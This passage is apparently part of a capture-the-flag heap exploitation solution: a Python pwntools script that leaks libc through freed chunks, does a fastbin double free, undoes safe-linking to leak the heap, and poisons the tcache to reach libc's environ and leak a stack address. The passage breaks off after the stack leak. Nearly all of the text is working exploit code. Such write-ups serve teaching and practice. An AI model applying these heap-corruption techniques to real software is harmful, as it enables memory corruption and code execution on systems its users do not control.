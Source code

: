 ```python
    p.sendlineafter("Page?", str(idx).encode())
    p.recvuntil("content: ")
    data = p.recvline()[:-1]
    return data

#Leaking libc address

for i in range(10):
    malloc(i, 0x80, "A"*0x80)

for i in range(8):
    free(i)

libc_leak = u64(view(7).ljust(8, b"\x00")) - (0x7a16e7a1ace0 - 0x7a16e7800000)

log.critical(f"libc @ {hex(libc_leak)}")

libc.address = libc_leak


#Stack Leak 

for i in range(10):
    malloc(i, 0x78, "A"*0x78)

for i in range(8):
    free(i)

free(9)
free(8)
free(9)

for i in range(7):
    malloc(i, 0x78, "A"*0x78)

heap_leak = (deobfuscate(u64(view(8).ljust(8, b"\x00"))) - 0x1000) & (0xfffffffffffff000)

log.critical(f"heap_leak: {hex(heap_leak)}")

pos = heap_leak + 0x1050
ptr = libc.sym['environ'] - 0x10
log.critical(f"ptr @ {hex(ptr)}")


malloc(0, 0x78, p64((pos >> 12) ^ ptr))

malloc(1, 0x78, "F"*0x78)
malloc(2, 0x78, "G"*0x78)


p.sendlineafter("_-_-_-_-", "1")
p.sendlineafter("request?", str(0x78).encode())
p.sendlineafter("Page?", str(3).encode())
p.sendafter("victim", b'a'*0x10)

p.sendlineafter("_-_-_-_-", "3")
p.sendlineafter("Page?", "3")
p.recvuntil("content: ")

data = p.recvline()[:-1][16:]

stack_leak = u64(data.ljust(8, b"\x00")) 

```